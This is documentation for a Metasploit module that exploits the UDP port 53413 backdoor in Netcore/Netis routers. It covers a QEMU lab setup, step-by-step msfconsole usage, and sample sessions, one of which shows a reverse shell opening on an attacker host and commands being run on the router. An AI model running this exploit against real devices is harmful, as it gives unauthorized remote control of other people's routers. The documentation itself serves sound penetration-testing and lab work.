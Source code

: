 ### Vulnerable Devices
Trend Micro lists "almost all" models as being vulnerable in August 2014.

Vulnerable AND Exploitable:

1. Netcore NI360 second-generation
 
Vulnerable, but not Exploitable via this module (details later):

1. Netis WF2414 firmware V1.4.27001

### Lab Emulation
1. Install qemu
2. Download and install mipsel.  Please read the [tutorial](https://people.debian.org/%7Eaurel32/qemu/mipsel/README.txt)
3. Starts the mipsel lab
 1. `qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net user,hostfwd=tcp::22222-:22,hostfwd=udp::53413-:53413`
4. Put [vuln_squashfs-root.tar.gz](https://github.com/rapid7/metasploit-framework/files/267284/vuln_squashfs-root.tar.gz) to mipsel lab, extract it.
 1. `scp -P22222 vuln_squashfs-root.tar.gz root@127.0.0.1:/root`
 2. `tar xvf vuln_squashfs-root.tar.gz`
5. Run vuln programs.
 1. `cd nw614 && chroot . /bin/igdmptd`

## Verification Steps

  1. Install the emulator/hardware
  2. Start msfconsole
  3. Do: `use exploits/linux/misc/netcore_udp_53413_backdoor`
  4. Do: `set RHOST <ip>`
  5. Do: `check`
  6. Do: `exploit`
  7. You should get a shell.

## Exploitability

As previously noted, some modules are vulnerable, but not currently exploitable via Metasploit.
During [testing](https://github.com/rapid7/metasploit-framework/pull/6880#issuecomment-231597626) it was discovered that some modules implement an echo command that does not honor -ne.  While it may be possible to still execute a shell, further investigation would need to be conducted.
In these cases, it should be possible to use [other scripts](https://github.com/h00die/MSF-Testing-Scripts/blob/master/netis_backdoor.py) to act as a fake interactive shell.

## Scenarios

The following is an example of a vulnerable AND EXPLOITABLE router.

```
use exploits/linux/misc/netcore_udp_53413_backdoor
msf exploit(netcore_udp_53413_backdoor) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(netcore_udp_53413_backdoor) > check
[+] The target is vulnerable.
msf exploit(netcore_udp_53413_backdoor) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Exploiting...
[*] Command Stager progress -  12.54% done (196/1563 bytes)
[*] Command Stager progress -  25.08% done (392/1563 bytes)
[*] Command Stager progress -  37.62% done (588/1563 bytes)
[*] Command Stager progress -  50.16% done (784/1563 bytes)
[*] Command Stager progress -  62.70% done (980/1563 bytes)
[*] Command Stager progress -  75.24% done (1176/1563 bytes)
[*] Command Stager progress -  87.78% done (1372/1563 bytes)
[*] Command Stager progress - 100.00% done (1563/1563 bytes)
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:54180) at 2016-05-16 00:52:43 -0500

pwd
/
ls
bin
cfg
dev
etc
lib
linuxrc
log
proc
sbin
sh
sys
tmp
usr
var
web
```

The following is an example of a vulnerable but NOT expoitable router.

```
msf > use exploits/linux/misc/netcore_udp_53413_backdoor
msf exploit(netcore_udp_53413_backdoor) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf exploit(netcore_udp_53413_backdoor) > check

[+] Backdoor Unlocked
[*] Router backdoor triggered, but non-exploitable echo command detected.  Not currently exploitable with Metasploit.
[*] The target service is running, but could not be validated.
```